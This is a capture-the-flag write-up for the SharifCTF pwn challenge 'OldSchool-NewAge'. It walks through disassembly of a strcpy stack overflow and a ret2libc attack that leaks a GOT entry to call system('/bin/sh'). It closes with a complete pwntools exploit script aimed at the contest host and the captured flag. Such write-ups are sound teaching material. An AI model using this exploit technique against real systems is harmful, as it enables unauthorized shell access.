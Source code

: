 # OldSchool-NewAge

- **Category :** pwn
- **Points :** 75
- **Challenge Description :**
```
It all started with a leak bang
```

## Writeup

We are being provided with a tar file containing two files, an executable and a libc. Let's first run file on them :

```
$ file vuln4 libc.so.6
vuln4:     ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked
libc.so.6: ELF 32-bit LSB shared object, Intel 80386, version 1 (GNU/Linux), dynamically linked
```

We can start to guess that this challenge will have to do with leaking stuff from libc (thanks to the presence of the library and the hint in the challenge description).
Let's first take a look at the main function of the program with r2 :
```
   sym.main ();
│           ; var int local_3ah @ ebp-0x3a
│           ; var int local_4h @ ebp-0x4
│           ; var int local_4h_2 @ esp+0x4
│           0x080484ea      8d4c2404       lea ecx, esp + 4            ; 4
│           0x080484ee      83e4f0         and esp, 0xfffffff0
│           0x080484f1      ff71fc         push dword [ecx - 4]
│           0x080484f4      55             push ebp
│           0x080484f5      89e5           mov ebp, esp
│           0x080484f7      51             push ecx
│           0x080484f8      83ec44         sub esp, 0x44               ; 'D'
│           0x080484fb      83ec0c         sub esp, 0xc
│           0x080484fe      6800860408     push str.This_time_it_is_randomized... ; 0x8048600 ; "This time it is randomized..."
│           0x08048503      e898feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x08048508      83c410         add esp, 0x10
│           0x0804850b      83ec0c         sub esp, 0xc
│           0x0804850e      681e860408     push str.You_should_find_puts_yourself ; 0x804861e ; "You should find puts yourself"
│           0x08048513      e888feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x08048518      83c410         add esp, 0x10
│           0x0804851b      a1a4980408     mov eax, dword [obj.stdout] ; [0x80498a4:4]=0
│           0x08048520      83ec0c         sub esp, 0xc
│           0x08048523      50             push eax
│           0x08048524      e847feffff     call sym.imp.fflush         ; int fflush(FILE *stream)
│           0x08048529      83c410         add esp, 0x10
│           0x0804852c      a1a0980408     mov eax, dword [obj.stdin]  ; [0x80498a0:4]=0
│           0x08048531      83ec04         sub esp, 4
│           0x08048534      50             push eax
│           0x08048535      68c8000000     push 0xc8                   ; 200
│           0x0804853a      8d45c6         lea eax, ebp - 0x3a
│           0x0804853d      50             push eax
│           0x0804853e      e83dfeffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
│           0x08048543      83c410         add esp, 0x10
│           0x08048546      83ec0c         sub esp, 0xc
│           0x08048549      8d45c6         lea eax, ebp - 0x3a
│           0x0804854c      50             push eax
│           0x0804854d      e879ffffff     call sym.copy_it
│           0x08048552      83c410         add esp, 0x10
│           0x08048555      83ec0c         sub esp, 0xc
│           0x08048558      683c860408     push str.done               ; 0x804863c ; "done!"
│           0x0804855d      e83efeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x08048562      83c410         add esp, 0x10
│           0x08048565      b800000000     mov eax, 0
│           0x0804856a      8b4dfc         mov ecx, dword [local_4h]
│           0x0804856d      c9             leave
│           0x0804856e      8d61fc         lea esp, ecx - 4
└           0x08048571      c3             ret
```

So we have a fgets reading 0xc8 characters into a stack allocated buffer, and this buffer is then copied with the copy_it function to another buffer in memory. Let's take a look at copy_it.

```
│   sym.copy_it ();
│           ; var int local_12h @ ebp-0x12
│              ; CALL XREF from 0x0804854d (sym.main)
│           0x080484cb      55             push ebp
│           0x080484cc      89e5           mov ebp, esp
│           0x080484ce      83ec18         sub esp, 0x18
│           0x080484d1      83ec08         sub esp, 8
│           0x080484d4      ff7508         push dword [ebp + 8]
│           0x080484d7      8d45ee         lea eax, ebp - 0x12
│           0x080484da      50             push eax
│           0x080484db      e8b0feffff     call sym.imp.strcpy         ; char *strcpy(char *dest, const char *src)
│           0x080484e0      83c410         add esp, 0x10
│           0x080484e3      b800000000     mov eax, 0
│           0x080484e8      c9             leave
└           0x080484e9      c3             ret
```

The copy function uses strcpy, which means that it doesn't take into account the string length during the copy, and since we are calling it with pointers to stack allocated buffers things will get nasty.
If we try to input a large number of chars we get a segfault, and eip control, so we need to build a strategy to exploit this.

What we know:
- The binary has ASLR enabled
- The binary has the NX bit enabled
- The call convention has the arguments on the stack
- We only have a few libc functions available to us (fflush, fgets, strcpy, puts).

## Strategy
Since the arguments are on the stack, we can build our own fake stack frames to call functions. If we take a look at our functions we can see that we have puts, which can allow us to read arbitrary memory locations. And this is where the leaking part of this challenge is, we can leak libc function addresses by reading from the GOT with puts, and build on that. We can outline the following strategy :

- Call puts(address of fgets) and leak fgets address
- Compute libc base address (fgets leak - fgets in libc)
- Compute system address
- Compute "/bin/sh" address in libc
- Return to _start
- Call system("/bin/sh")
- ???
- Profit!

Note : Returning to _start allowed us to reset our stack to a sane state, and also allowed us to be able to exploit the program again without actually crashing it (and re-randomizing the addresses again)

We can then just navigate to the ctfuser home directory and cat the flag !
```
$ cat /home/ctfuser/flag
SharifCTF{7af9dab81dff481772609b97492d6899}
```

## Exploit script

```python
from pwn import *

overflow_offset = 22

puts_bin_addr = 0x80483a0
fgets_got = 0x804986c

main_addr = 0x80484ea
_start_addr = 0x80483d0

fgets_libc_addr = 0x0005e150 # 0x00065c50 locally
bin_sh_libc_addr = 0x0015ba0b # 0x0017882a locally
system_libc_addr = 0x0003ada0 # 0x0003c7d0 locally

# Goal : Leak puts addr and cal system
# step 1 : Leak fgets
# - Build a false stack frame
# - Call puts with delta GOT offset as argument
# - Read addr and compute delta

p = remote("ctf.sharif.edu",4801)
p.recv(4096)

stage1 = "A"*overflow_offset
stage1 += p32(puts_bin_addr)
stage1 += p32(_start_addr) # return address
stage1 += p32(fgets_got)

log.info("Leaking fgets got ...")
p.sendline(stage1)

leak = p.recv(4096)

dump(leak,"leak.bin")
fgets_got_entry = u32(leak[0:4])

log.info("fgets got address : {}".format(hex(fgets_got_entry)))

libc_base_addr = fgets_got_entry - fgets_libc_addr

bin_sh_addr = libc_base_addr + bin_sh_libc_addr
system_addr = libc_base_addr + system_libc_addr

log.info("libc base addr is : {}".format(hex(libc_base_addr)))
log.info("/bin/sh string addr is : {}".format(hex(bin_sh_addr)))
log.info("system addr is : {}".format(hex(system_addr)))



# step 2 : exploit
# - Call main again
# - Call system("/bin/sh")
# - Profit !

log.info("Getting remote shell ...")
stage2 = "A"*overflow_offset
stage2 += p32(system_addr)
stage2 += p32(_start_addr)
stage2 += p32(bin_sh_addr)

p.sendline(stage2)

# Remote shell
p.interactive()
```

